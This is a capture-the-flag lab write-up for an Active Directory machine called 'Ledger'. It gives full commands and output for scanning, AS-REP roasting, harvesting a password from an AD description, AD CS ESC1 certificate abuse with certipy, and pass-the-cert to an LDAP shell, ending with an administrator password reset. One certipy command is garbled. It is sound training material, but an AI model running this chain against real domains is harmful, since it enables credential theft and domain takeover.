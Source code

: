 # Ledger

## Machine Info

Domain name: `THM.local`

FQDN: `labyrinth.thm.local`&#x20;

Dinaub SID: `S-1-5-21-1966530601-3185510712-10604624`





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.242.176 -oN port_scan.txt

Nmap scan report for 10.10.242.176
Host is up (0.043s latency).
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-29 07:27:05Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
|_ssl-date: 2025-07-29T07:28:13+00:00; -2s from scanner time.
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA
| Not valid before: 2023-05-12T07:26:00
|_Not valid after:  2028-05-12T07:35:59
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-29T07:28:13+00:00; -2s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Not valid before: 2025-07-28T07:22:51
|_Not valid after:  2026-01-27T07:22:51
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
7680/tcp  open  pando-pub?
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC

```



## LDAP Enum

With this nmap command we can notice that we anonymous ldap is enabled, and we can use this flaw to enum the Domain.

```bash
nmap -p 389 --script ldap-search 10.10.242.176
```



### AS-REP Roastable user

Now, with impacket we can enumerate the user with "**Do not require Kerberos preauthentication**" parameter to enable.

```bash
impacket-GetNPUsers THM.local/ -dc-ip 10.10.242.176

Name            MemberOf  PasswordLastSet             LastLogon  UAC      
--------------  --------  --------------------------  ---------  --------
SHELLEY_BEARD             2023-05-30 11:46:05.083950  <never>    0x410200 
ISIAH_WALKER              2023-05-30 11:46:09.380690  <never>    0x410200 
QUEEN_GARNER              2023-05-30 11:46:14.208632  <never>    0x410200 
PHYLLIS_MCCOY             2023-05-30 11:46:20.583409  <never>    0x410200 
MAXINE_FREEMAN            2023-05-30 11:46:51.475615  <never>    0x410200 
```

Request the tgt ticket for all user above.

```bash
impacket-GetNPUsers THM.local/SHELLEY_BEARD -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/ISIAH_WALKER -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/QUEEN_GARNER -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/PHYLLIS_MCCOY -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/MAXINE_FREEMAN -dc-ip 10.10.242.176 -no-pass
```

Copy all results in a file and try to crack at least one.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt tgts_ticket.txt
```

Nothing results :(



### AD Object description

Check if there are some passwords in the user's AD description

{% code overflow="wrap" %}
```bash
ldapsearch -x -H ldap://thm.local -b "dc=thm,dc=local" "(objectClass=user)" cn description

[..snip..]
# SUSANNA_MCKNIGHT, Test, ITS, Tier 1, thm.local
dn: CN=SUSANNA_MCKNIGHT,OU=Test,OU=ITS,OU=Tier 1,DC=thm,DC=local
cn: SUSANNA_MCKNIGHT
description: Please change it: CHANGEME2023!
[..snip..]
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>

We found a possible password for the SUSANNA\_MCKNIGHT user. Using cme check if the password is still valid.

```bash
crackmapexec smb 10.10.242.176 -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
```

<figure><img src="../../../.gitbook/assets/image (332).png" alt=""><figcaption></figcaption></figure>

It's still vaild.



## Bloodhound enumeration

With the credentials found, enumerate the Domain with bloodhound

{% code overflow="wrap" %}
```bash
bloodhound-python -c all -ns 10.10.242.176 -dc labyrinth.thm.local -d thm.local --zip -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
```
{% endcode %}

The bloodhound research didn't find out interesting things to escalate our priviliges



## AD CS finding

Try to find out some Certs misconfiguration .

{% code overflow="wrap" %}
```bash
certipy find -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!' -dc-ip 10.10.242.176 -vulnerable -enabled

cat *_Certipy.txt | grep ESC
```
{% endcode %}

From this output we can see that the CA:

```
Certificate Authorities             : thm-LABYRINTH-CA
```

It's vulnerable to ESC1.

```
ESC1        : Enrollee supplies subject and template allows client authentication.
```

### ESC1 flaw

Using this flaw we can request a certificate for any user in the Domain.&#x20;

{% code overflow="wrap" %}
```bash
certipy req -ca 'thm-LABYRINTH-CA' -dc-ip '10.10.242.176' -u 'SUSANNA_MCKNIGHT' -p certipy req -u "SUSANNA_MCKNIGHT@thm.local" -p 'CHANGEME2023!' -dc-ip '10.10.102.159' -target "labyrinth.thm.local" -ca 'thm-LABYRINTH-CA' -template 'ServerAuth' -upn 'administrator@thm.local'
```
{% endcode %}

Now the certificate is broken and when i try to request the TGT, it generates a PADATA error because the certificate is expired.

The solution is extract the .key and .crt from the pfx and login with Pass-the-cert python tool.

{% code overflow="wrap" %}
```bash
certipy cert -pfx administrator.pfx -nokey -out "administrator.crt"
certipy cert -pfx administrator.pfx -nocert -out "administrator.key"

python3 passthecert.py -action ldap-shell -crt ../../administrator.crt  -key ../../administrator.key -domain thm.local -dc-ip 10.10.102.159
```
{% endcode %}

Now that we have a LDAP-SHELL we can use the function `change_password` to change the administrator  user password and access to the system as administrator.

```bash
change_password BRADLEY_ORTIZ Password123!
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## RDP as administrator user

```bash
xfreerdp3 /v:10.10.102.159 /u:BRADLEY_ORTIZ /p:Password123!
```

Run as Powershell as administrator and print the user and root flag.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
